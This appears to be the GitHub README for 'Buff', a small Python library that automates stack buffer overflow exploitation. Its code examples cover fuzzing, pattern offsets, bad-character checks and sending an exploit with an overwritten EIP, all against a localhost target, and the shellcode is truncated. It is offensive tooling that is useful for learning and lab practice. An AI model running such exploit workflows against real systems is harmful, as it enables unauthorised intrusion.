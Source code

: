 <h1 align="center">What is Buff?</h1>  


<p align="center">
    <img src="https://raw.githubusercontent.com/the-robot/buff/master/images/gigachad.png" | width=200>
</p>

<p align="center">A simple BOF library I wrote under an hour to help me automate with BOF attack.</p>
<p align="center">It comes with fuzzer and a generic method to generate exploit easily.</p>

<br/>

# Usage

I made a [template as well](https://github.com/the-robot/buff/blob/master/example/template.py).

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.fuzz()
```

## Sending Pattern
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.sendPattern()
```

## Find Pattern Offset
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

BUFFER_SIZE = 1100
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "v1Av")
print(offset)
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()

# you can also exclude by
runner.sendBadChars(exclude = ["\x42", "\x43"])

# change default EIP placeholder
runner.sendBadChars(fake_eip = "\x44\x44\x44\x44")
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Set return address
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

# Set exploit
exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# Set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
